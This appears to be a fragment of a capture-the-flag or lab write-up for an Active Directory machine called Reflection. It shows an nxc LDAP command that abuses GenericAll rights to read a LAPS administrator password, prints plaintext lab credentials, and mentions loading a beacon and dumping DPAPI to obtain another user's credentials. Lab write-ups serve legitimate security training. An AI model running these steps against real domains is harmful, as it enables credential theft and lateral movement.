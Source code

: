 while we have GenericlAll for machine then we can use —laps for grab administrator password

    ➜  Reflection nxc ldap DC01.reflection.vl -u 'abbie.smith' -p 'CMe1x+nlRaaWEw' -M laps
    SMB         10.10.129.245   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
    LDAP        10.10.129.245   389    DC01             [+] reflection.vl\abbie.smith:CMe1x+nlRaaWEw 
    LAPS        10.10.129.245   389    DC01             [*] Getting LAPS Passwords
    LAPS        10.10.129.245   389    DC01             Computer:MS01$ User:                Password:H447.++h6g5}xi


BOOOM lets load beacon at MS01

![alt text](<../assets/images/Screenshot_2025-02-04_21_26_15.png>)

lets dump dpapi

we got Georgia.Price creds
